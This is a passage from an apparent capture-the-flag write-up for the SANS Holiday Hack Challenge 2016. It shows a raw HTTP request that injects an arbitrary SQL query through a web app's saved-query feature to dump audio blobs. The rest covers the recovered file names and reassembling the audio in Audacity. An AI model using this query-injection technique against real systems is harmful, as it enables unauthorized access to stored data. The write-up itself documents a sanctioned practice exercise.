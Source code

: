 Next we execute the saved query using View functionality:

![admin2]({{ site.baseurl }}/images/sans2016/admin2.png)

Note that we now see what MP3 files are in the database. But we cannot quite get the files yet because they are blobs. So let's modify the query to Base64-encode them:

```
GET /edit.php?id=6df741a8-c1b7-42ea-bd51-97ba7afa4d94&name=d&description=d
&query=select to_base64(mp3) from audio HTTP/1.1
Host: analytics.northpolewonderland.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://analytics.northpolewonderland.com/edit.php
Cookie: AUTH=82532b2136348aaa1fa7dd2243dc0dc1e10948231f339e5edd5770daf9eef18a4384f6e7bca04d86e573b965cc9d6548b5494d6763a30b63b71976884152
Connection: keep-alive
```

Now we can get the encoded bodies of the MP3 files:

![admin3]({{ site.baseurl }}/images/sans2016/admin3.png)

Now all that is left is Base64-decoding them and picking the right file for our needs (looking back it seems that adding a ```WHERE username='administrator'``` clause to the query would have simplified this task a little as it would have given us the right file directly).

> 8) What are the names of the audio files you discovered from each system above? There are a total of SEVEN audio files (one from the original APK in Question 4, plus one for each of the six items in the bullet list above.)

> * **discombobulatedaudio1.mp3**
> * **discombobulatedaudio2.mp3**
> * **discombobulatedaudio3.mp3**
> * **debug-20161224235959-0.mp3**
> * **discombobulatedaudio5.mp3**
> * **discombobulated-audio-6-XyzE3N9YqKNH.mp3**
> * **discombobulatedaudio7.mp3**

## Part 5: Discombobulated Audio 

Once I collected all the files, I fired up [Audacity](http://www.audacityteam.org/) and went on to play with them. This was actually the most frustrating part of the challenge as I took the wrong turn and spent about 2 evenings trying to analyze each clip - changing pitch and tempo, clearing noise, normalizing, compressing, changing bass and treble, amplifying, merging... the list goes on and on. I got some random words out of that exercise but overall I was nowhere close to discovering the true message hidden in the audio. 

That was a classic case of over-thinking the solution to the problem and the lesson to be learned here is to *always* try the simple and obvious solution first, no matter how unlikely or simplistic it seems. 

In the end the solution was to simply join the files according to their sequence numbers, and then speed up the audio by increasing tempo about 6 times (in Audacity this is done by going to ```Effect > Change tempo...``` and entering ```600``` in ```Percent Change``` field). Once that was done I could fairly clearly hear the phrase being said, although some individual words could still be interpreted in different ways that didn't make a whole lot of sense. What I thought I heard was ```Follow Christmas, time controls, or as I was known in chess```. 8-(
